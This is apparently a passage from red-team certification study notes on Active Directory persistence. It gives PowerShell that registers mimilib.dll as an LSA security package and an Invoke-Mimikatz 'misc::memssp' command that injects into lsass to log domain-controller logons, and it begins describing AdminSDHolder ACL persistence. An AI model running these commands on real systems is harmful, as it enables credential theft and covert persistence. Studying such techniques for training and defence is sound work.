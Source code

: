 **We can use either of the ways**:
```powershell
# Drop the mimilib.dll to system32 and add mimilib to HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages:

$packages = Get-ItemProperty
HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages'
$packages += "mimilib"
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages

**Using mimikatz, inject into lsass (Not super stable with Server 2019 and Server 2022 but still usable)**:
```powershell
Invoke-Mimikatz -Command '"misc::memssp"'
```

**All local logons on the DC are logged to**:
```powershell
C:\Windows\system32\mimilsa.log
```

## Persistence using ACLs - AdminSDHolder

- Resides in the System container of a domain and used to control the permissions - using an ACL - for certain built-in privileged groups (called **Protected Groups**).
- **Security Descriptor Propagator** (SDPROP) runs every hour and compares the ACL of protected groups and members with the ACL of **AdminSDHolder** and any differences are overwritten on the object ACL.

![Alt text](/assets/images/posts/crtp/13.png){: .align-center}
